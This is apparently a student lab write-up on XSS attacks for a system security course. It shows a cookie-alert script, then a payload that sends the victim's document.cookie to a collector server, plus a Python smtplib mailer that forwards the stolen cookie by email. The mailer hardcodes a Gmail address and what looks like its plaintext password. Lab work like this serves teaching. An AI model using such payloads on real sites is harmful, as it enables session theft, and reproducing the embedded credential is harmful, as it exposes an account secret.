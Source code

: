 # System Security Lab 3

Alex W `1003474`
Sheikh Salim `1003367`

## Part A : XSS Attack
### Exercise 1
The script used is:
```javascript
alert(document.cookie)
```
On logging as `alex`, and viewing his profile, the following alert window with cookie is printed:
![](https://i.imgur.com/btSCh3g.png)
![](https://i.imgur.com/WGdMwKt.png)

### Exercise 2
The script used is:
```javascript
(new Image()).src='http://127.0.0.1:8000?' + 'to=syssechacks@gmail.com' + '&payload=' + encodeURIComponent(document.cookie)+ '&random=' + Math.random();
```
On logging as `alex`, and viewing his profile, the following output is captured in flask server:
![](https://i.imgur.com/vjCWYFC.png)

We utilise gmail for sending and receiving emails, with the help of `smtplib`.

```python=
class Mail:
    def __init__(self):
        self.port = 465
        self.smtp_server_domain_name = "smtp.gmail.com"
        self.sender_mail = "jamesnotalex3@gmail.com"
        self.password = "4865VmcNrmKR2pF"

    def send(self, recipient, subject):
        ssl_context = ssl.create_default_context()
        service = smtplib.SMTP_SSL(self.smtp_server_domain_name,
                                   self.port,
                                   context=ssl_context)
        service.login(self.sender_mail, self.password)

        result = service.sendmail(self.sender_mail, recipient,
                                  "Subject: {}".format(subject))

        service.quit()
        
mail = Mail()
mail.send(arg1, arg2)

        
```
Example email is sent from `jamesnotalex3@gmail.com` to `syssechacks@gmail.com`:
![](https://i.imgur.com/Q3C7srr.png)

